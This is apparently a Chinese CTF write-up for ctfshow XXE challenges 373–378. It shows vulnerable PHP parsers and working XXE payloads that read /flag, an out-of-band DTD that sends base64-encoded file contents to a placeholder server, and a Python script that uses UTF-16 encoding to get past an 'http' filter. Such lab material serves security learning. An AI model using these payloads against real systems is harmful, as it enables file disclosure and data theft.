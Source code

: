 ```yaml
---
title: ctfshow-xxe
id: ctfshow-xxe
date: 2021-08-21 13:33:33
sidebar_position: 13
---
```


<!-- more -->


[从XML相关一步一步到XXE漏洞 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/6887)

[一篇文章带你深入理解漏洞之 XXE 漏洞 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/3357)

[XML外部实体（XXE）注入详解 - 渗透测试中心 - 博客园 (cnblogs.com)](https://www.cnblogs.com/backlion/p/9302528.html)

## 373

> ```php
> <?php
> 
> error_reporting(0);
> libxml_disable_entity_loader(false);	#为TRUE则禁用外部实体
> $xmlfile = file_get_contents('php://input');
> if(isset($xmlfile)){
>     $dom = new DOMDocument();
>     $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
>     $creds = simplexml_import_dom($dom);
>     
>     $ctfshow = $creds->ctfshow;
>     echo $ctfshow;
> }
> highlight_file(__FILE__);    
> 
> ```
>
> 利用伪协议php://input获得传入的xml数据
>
> loadXML()接收两个参数：1、包含xml文档的字符串；2、保存libxml选项常量的按位
> 		LIBXML_NOENT: 将 XML 中的实体引用 替换 成对应的值
> 		LIBXML_DTDLOAD: 加载 DOCTYPE 中的 DTD 文件

payload:

```xml
<!DOCTYPE payload[
<!ENTITY a SYSTEM "file:///flag">
]>
<na0h>
<ctfshow>&a;</ctfshow>
</na0h>
```

## 374、375、376-无回显

> ```php
> <?php
> 
> error_reporting(0);
> libxml_disable_entity_loader(false);
> $xmlfile = file_get_contents('php://input');
> if(isset($xmlfile)){
>     $dom = new DOMDocument();
>     $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
> }
> highlight_file(__FILE__);    
> 
> ```

无回显，需要把数据外带出来
这里可以用python简单的搭一个静态服务器用于监听

```python
py -m http.server 6666
```

在服务器构造一个dtd文件

test.dtd

```dtd
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///flag">
<!ENTITY % a "<!ENTITY &#x25; b SYSTEM 'http://xxx:6666/?x=%file;'>">
%a;
%b;
```

嵌套的`%`需要写成十六进制的`&#x25;`或者其他进制也行

payload:

```xml-dtd
<!DOCTYPE hhh [<!ENTITY % c SYSTEM "http://xxx:6666/test.dtd">
%c;
]>
```

```
这里实体c调用了外部实体test.dtd，然后调用了其中的参数实体a和b，b调用其中的file
就利用伪协议读到flag了
```

![](https://i.loli.net/2021/08/23/L4coRJm59GruVXe.png)

base64解码即可

> ```php
> if(preg_match('/<\?xml version="1\.0"/', $xmlfile)){
>     die('error');
> }
> ```
>
> 375、376过滤了XML声明，还是上面的payload就行
> 想绕过的话在中间多打几个空格也就绕过了

## 377-utf-16

```php
error_reporting(0);
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(preg_match('/<\?xml version="1\.0"|http/i', $xmlfile)){
    die('error');
}
if(isset($xmlfile)){
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
}
highlight_file(__FILE__);    
```

过滤了http，这里改用utf-16编码发包就能绕过了

```python
import requests

url = 'http://d608152d-15f9-468d-a1f4-dfb89bde6d3a.challenge.ctf.show:8080/'
payload = """<!DOCTYPE hhh [<!ENTITY % c SYSTEM "http://xxx:6666/test.dtd">
%c;
]>"""
payload = payload.encode('utf-16')
requests.post(url, data=payload)
```

看一下utf-8和utf-16的区别

![](https://i.loli.net/2021/08/23/aXHBIR6PYxp5D2t.png)

## 378-python X

这题是python XXE漏洞

构造一下：

```xml
<!DOCTYPE payload[
<!ENTITY a SYSTEM "file:///flag">
]>
```

![](https://i.loli.net/2021/08/23/jKVeTEWos5MD9FH.png)
